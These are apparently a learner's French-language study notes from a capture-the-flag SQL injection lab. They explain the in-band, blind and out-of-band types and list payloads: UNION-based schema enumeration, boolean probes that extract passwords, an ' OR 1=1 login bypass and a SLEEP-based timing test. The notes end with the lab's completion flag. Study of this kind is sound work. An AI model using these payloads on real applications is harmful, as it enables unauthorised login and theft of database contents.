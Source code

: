 # Injections SQL

## Qu'est-ce que les injections SQL ?
Le point où une application web utilisant le langage SQL peut se transformer en injection SQL est lorsque des données fournies par l'utilisateur sont incluses dans la requête SQL.

## Qu'est-ce que le "In-Band SQLi" ?
L'injection SQL en bande est le type le plus facile à détecter et à exploiter ; en bande se réfère simplement à la même méthode de communication utilisée pour exploiter la vulnérabilité et recevoir les résultats, par exemple, découvrir une vulnérabilité d'injection SQL sur la page d'un site web et pouvoir ensuite extraire des données de la base de données sur la même page.

## Qu'est-ce que le "Blind SQLi - Authentication Bypass" ?
L'une des techniques d'injection SQL aveugle les plus simples consiste à contourner les méthodes d'authentification telles que les formulaires de connexion. Dans ce cas, nous ne sommes pas intéressés par l'extraction de données de la base de données ; nous voulons simplement passer le formulaire de connexion.

## Qu'est-ce que le "Blind SQLi - Boolean Based" ?
L'injection SQL booléenne fait référence à la réponse que nous recevons à la suite de nos tentatives d'injection. Il peut s'agir d'une réponse de type vrai/faux, oui/non, on/off, 1/0 ou de toute autre réponse qui ne peut avoir que deux résultats. Ce résultat confirme que notre charge utile d'injection SQL a réussi ou non. À première vue, on peut penser que cette réponse limitée ne fournit pas beaucoup d'informations. 

## Qu'est-ce que le "Blind SQLi - Time Based" ?
Une injection SQL aveugle basée sur le temps est très similaire à l'injection booléenne ci-dessus dans la mesure où les mêmes requêtes sont envoyées, mais il n'y a pas d'indicateur visuel de l'exactitude ou de l'inexactitude de vos requêtes cette fois-ci. Au lieu de cela, l'indicateur d'une requête correcte est basé sur le temps que prend la requête pour se terminer. Ce délai est introduit à l'aide de méthodes intégrées telles que SLEEP(x) et l'instruction UNION. 

## Qu'est-ce que le "Out-of-Band SQLi" ?
L'injection SQL hors bande n'est pas aussi courante, car elle dépend soit de fonctions spécifiques activées sur le serveur de base de données, soit de la logique commerciale de l'application web, qui effectue une sorte d'appel réseau externe sur la base des résultats d'une requête SQL.
## Commandes

### Récupérer le nom de la base de données

```
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
database()
```

### Récupérer la liste des tables d'une base de données

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

### Récupérer la liste des colonnes d'une table

```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

### Récupérer les valeurs des enregistrements d'une table

```
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

### By pass un formulaire de connexion

```
Pour en faire une requête qui renvoie toujours la valeur "true", nous pouvons saisir ce qui suit dans le champ du mot de passe :
' OR 1=1;--
```

### Trouver une table dans une base de données connue par essaie et erreur

```
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```

### Trouver les colonnes d'une table connue par essaie et erreur

```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

### Trouver un champ par essaie et erreur

```
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

### Ajouter un sleep dans une requête.

```
admin123' UNION SELECT SLEEP(5),2;--
```

### Preuve que vous avez terminé le tutoriel : THM{SQL_INJECTION_MASTER}
